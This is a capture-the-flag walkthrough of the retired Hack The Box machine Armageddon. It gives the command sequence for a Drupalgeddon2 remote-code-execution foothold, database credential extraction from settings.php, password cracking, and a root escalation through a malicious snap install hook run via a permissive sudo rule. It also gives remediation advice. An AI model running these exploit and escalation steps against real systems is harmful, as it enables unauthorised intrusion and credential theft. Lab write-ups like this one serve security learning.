



# Armageddon — Hack The Box

<p align="left">
  
</p>

| | |
|---|---|
| **Platform** | Hack The Box |
| **Difficulty** | Easy |
| **OS** | Linux |
| **Status** | ✅ Retired |
| **Key techniques** | Drupalgeddon2 (CVE-2018-7600), config-file credential leak, GTFOBins `snap` abuse |

---

## TL;DR

Armageddon is a CMS box built around Drupalgeddon2, a critical unauthenticated
RCE in old Drupal releases. From the resulting shell, Drupal's own settings
file leaks database credentials, which lead to a cracked account password and
SSH access. Root comes from a `sudo` rule allowing unrestricted `snap`
installs — a package manager that, per GTFOBins, will happily run arbitrary
code as root during install.

---

## Recon & Enumeration

```bash
nmap -sV -p- 10.10.10.233
```



SSH and Apache. Directory brute-forcing on the web root found `/profiles`,
which exposed a Drupal version string vulnerable to **Drupalgeddon2**
(CVE-2018-7600) — a well-known, critical unauthenticated RCE affecting
multiple Drupal 7.x/8.x releases.

```bash
gobuster dir -u http://10.10.10.233 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

---

## Foothold / Initial Access



A public exploit for Drupalgeddon2 was enough:

```bash
git clone https://github.com/dreadlocked/Drupalgeddon2
ruby drupalgeddon2.rb http://10.10.10.233
```

This landed a shell directly, no manual exploitation required beyond
confirming the vulnerable version first.

---

## Privilege Escalation

Drupal's `sites/default/settings.php` is where its own database credentials
live — checking it is close to automatic on any compromised Drupal install:

```bash
cat /var/www/html/sites/default/settings.php
```



That gave working MySQL credentials, which in turn exposed the Drupal
`users` table — and a hashed password for a real system account,
`brucetherealadmin`:

```bash
mysql -u drupaluser -p'<PASSWORD>' -e 'use drupal; select * from users;'
john --wordlist=/usr/share/wordlists/rockyou.txt hash
```

The cracked password worked directly over SSH, giving the user flag.

`sudo -l` as `brucetherealadmin` showed:

```
(root) NOPASSWD: /usr/bin/snap install **
```

GTFOBins documents `snap` as directly abusable: a snap package can define an
install hook, which runs during installation — as root, since the install
itself needs root. Building a minimal malicious snap on my own machine:

```bash
sudo gem install fpm
COMMAND="cat /root/root.txt"
mkdir -p meta/hooks
printf '#!/bin/sh\n%s; false' "$COMMAND" > meta/hooks/install
chmod +x meta/hooks/install
fpm -n exploit -s dir -t snap -a all meta
```

Transferring and installing it on the target executed the hook as root:

```bash
sudo snap install exploit.snap --dangerous --devmode
```

Root flag retrieved.

---

## Lessons Learned

- **A CVE with a public, well-tested exploit script (Drupalgeddon2) is often
  faster and more reliable than trying to reproduce it manually** — reading
  the PoC first is still worth doing to understand what it actually does.
- **A CMS's own configuration file is the fastest path to its database
  credentials** — checking `settings.php` (or the equivalent for any CMS) is
  close to a reflex once you have a shell as the web user.
- **`sudo` rules granting unrestricted access to package managers are a root
  shell in disguise** — `snap`, `apt`, `gem`, and similar tools almost always
  have a documented GTFOBins entry.

---

## Remediation

- Patch Drupal (and any CMS) promptly; Drupalgeddon2 had a public exploit
  within days of disclosure.
- Never store database credentials in world-readable configuration files
  without additional access controls, and rotate them if a shell as the web
  user is ever obtained.
- Never grant `NOPASSWD` `sudo` access to a package manager without
  restricting it to a specific, reviewed package — an unrestricted install
  right is equivalent to root.

---

## Tools used

- `nmap`, `gobuster`
- Drupalgeddon2 exploit (Ruby)
- `mysql`, `john`
- `fpm` (snap package builder)

---

**See also:** [Linux privilege escalation methodology](../../methodology/linux-privesc.md)

---

**Machine:** [Hack The Box — Armageddon](https://www.hackthebox.com/machines/armageddon)
